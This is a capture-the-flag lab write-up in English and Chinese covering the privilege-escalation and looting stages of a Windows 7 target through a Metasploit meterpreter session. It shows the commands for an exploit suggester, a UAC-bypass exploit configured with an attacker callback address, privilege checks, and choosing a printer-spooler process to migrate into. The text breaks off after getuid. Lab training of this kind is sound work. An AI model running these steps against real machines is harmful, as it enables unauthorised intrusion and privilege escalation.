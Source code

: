 ## Escalate 
- Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now?
	- ![](https://i.imgur.com/In1AKy0.png)
	- 他自動彈回了一個 `meterpreter` 的 shell
-  What user was running that Icecast process? The commands used in this question and the next few are taken directly from the 'RP: Metasploit' room. 
	-  輸入 `ps` 可以看到所有的 process
	- ![](https://i.imgur.com/d4jMJL3.png)
	-  而如上圖，`Icecast2.exe` 使用者為 `DARK`
- What build of Windows is the system?
	- 偵察系統版本有助於後續的工作
	- 可以輸入 `sysinfo` 觀察
	- ![](https://i.imgur.com/PIFkh0P.png)
	- `7601`
- Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running?
	- 如上的 `sysinfo` ，可以看到架構是 `x64`

- Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`. *This can appear to hang as it tests exploits and might take several minutes to complete*
	- 接下來我們要使用 meterpreter 的自動 exploit 推薦器來做自動化測試
	- `run post/multi/recon/local_exploit_suggester`
	- ![](https://i.imgur.com/ROwgkuO.png)
- Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit?
	- 第一個回傳的是 `exploit/windows/local/bypassuac_eventvwr`

- 按下鍵盤 `ctrl + z` 先把 meterpreter session 丟去背景
	- 準備來下 explit 指令
	- 輸入 `use exploit/windows/local/bypassuac_eventvwr`
		- ![](https://i.imgur.com/butocXi.png)
	- 輸入 `show options`
		- ![](https://i.imgur.com/8NpF3XG.png)
	- 確認目前的 session ID
		- ![](https://i.imgur.com/yeRDm2Y.png)
		- ID 為 `1`
	- 設定相關參數
		- `set session 1`
		- `set LHOSTS 10.13.21.55`
	- 輸入 `run` 開始執行
		- ![](https://i.imgur.com/rCkmQoo.png)
- We can now verify that we have expanded permissions using the command `getprivs`. What permission listed allows us to take ownership of files?
	- 輸入 `getprivs` 可以看到我們的權限
	- ![](https://i.imgur.com/xFxCjcl.png)
	- 他說要可以 take ownership of files
	- 所以是 `SeTakeOwnershipPrivilege`
## Looting
- Mentioned within this question is the term 'living in' a process. Often when we take over a running program we ultimately load another shared library into the program (a dll) which includes our malicious code. From this, we can spawn a new thread that hosts our shell. 
	- 他說要找印表機相關的程式 
	- 先下 `ps` 觀察 processes
		- ![](https://i.imgur.com/yfRB3fr.png)
	- 透過 Google 可以發現是 `spoolsv.exe`
		- 他的 pid 是 `1300`
	- ![](https://i.imgur.com/1X7x918.png)
- 輸入 `getuid` 觀察目前我們是什麼使用者
	- ![](https://i.imgur.com/h7Qlwg7.png)